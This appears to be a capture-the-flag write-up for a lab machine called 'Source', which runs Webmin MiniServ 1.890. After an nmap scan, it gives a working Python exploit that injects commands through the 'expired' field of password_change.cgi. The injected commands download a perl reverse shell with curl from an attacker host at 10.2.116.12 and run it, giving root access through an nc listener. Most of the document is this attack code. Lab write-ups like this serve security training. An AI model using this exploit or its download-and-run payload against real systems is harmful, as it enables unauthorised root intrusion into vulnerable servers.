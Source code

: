 # Source

`nmap` found two open ports for us.

> 22 ssh<br>
> 10000 snet-sensor-mgmt MiniServ 1.890 (Webmin httpd)<br>

I went to https://source.thm:10000 and found there:<br>
![webmin](./imgs/webmin.png)

I looked for `MiniServ 1.890 exploit` in Google and found a Python script, which turned out to work.<br>

Then I changed the script a little bit so that I understand it and have more control over it.<br>
Also, I found a good perl `reverse-shell`, and set up `python3 -m http.server`, set up an `nc -lvnp 2222`, and ran my new script.
```
import os

target = "source.thm"
port = "10000"
url = "https://"+target+":"+port+"/password_change.cgi"

rhost = "10.2.116.12"
rport = 2222

command1 = "curl -o perl_shell.pl http://10.2.116.12:8000/perl_shell.pl"
command2 = "perl perl_shell.pl"

header = f'Referer: https://{target}:{port}/session_login.cgi'

payload = f'user=gotroot&pam=&expired=2|echo "";{command1}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")

payload = f'user=gotroot&pam=&expired=2|echo "";{command2}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")
```

Then
```
python3 my_exp.py
```
And the `nc` listener will get you a `root reverse-shell`.
